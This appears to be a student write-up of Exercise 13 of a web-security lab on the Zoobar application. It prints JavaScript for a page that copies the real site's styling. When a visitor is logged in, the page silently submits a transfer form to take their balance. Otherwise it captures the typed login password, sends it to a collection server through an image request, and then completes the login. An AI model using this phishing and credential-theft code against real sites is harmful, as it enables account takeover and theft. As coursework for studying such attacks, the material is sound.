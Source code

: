 ### Exercise 13
In exercise 13, we polished up the 2 methods so far in Part B and Part C. Here, we instituted the following:
1. If a user is logged in -> proceed to siphon his/her balance directly
2. If a user is not logged in -> proceed to siphon his/her login password

In this setup, we determine if a user is logged in using the hidden dummy `myZoobars` div. The script `zoobarjs` is called to allow for us to determine if a user does in fact have a logged in session upon visiting the page. Thus the flow becomes as such
- If the user has an active session (ie; `document.getElementById("myZoobars")` is not empty, load up the code from Exercise 8, and proceed to reroute to the SUTD webpage
- If the user does not have an active session, proceed to call the methods previously in Exercise 12, such that we are hence able to siphon the password instead.

In addition to that, we note that Exercise 13 required a fully setted up page, where the CSS mattered. This was trivially accomplished by coopying over the CSS scripts and idenitifers from the actual html page.

Here is the javascript code in detail. The full code is available in `answer-13.html`:

```htmlembedded=
<script>
                const userZoobar  = document.getElementById("myZoobars")
                if (userZoobar.innerHTML) {
                    // Run ex 8 code here
                    document.getElementsByName("transferform")[0].submit()
                    var malIframe = document.getElementById("malicious-iframe")
                    malIframe.addEventListener("load", function () {
                        window.location = "https://www.sutd.edu.sg/"
                    })
                } 
        
                function maliciousSubmit(event) {
                  event.preventDefault()
          
                  function execEmail() {
                      (new Image()).src='http://127.0.0.1:8000?' + 'to=redfreak97@gmail.com' + '&payload=' + encodeURIComponent(document.getElementsByName('login_password')[0].value)+ '&random=' + Math.random()
                    }
                    execEmail()
            
                  setTimeout(function (){
                     var formContext = document.getElementsByName("loginform")[0]
                     formContext.removeAttribute('onsubmit')  
                     document.getElementsByName("submit_login")[0].click()
                  }, 1000)
            
                }
            </script>


```
**A complete CSS clone of the original**
![](https://i.imgur.com/hfNtlRw.png)
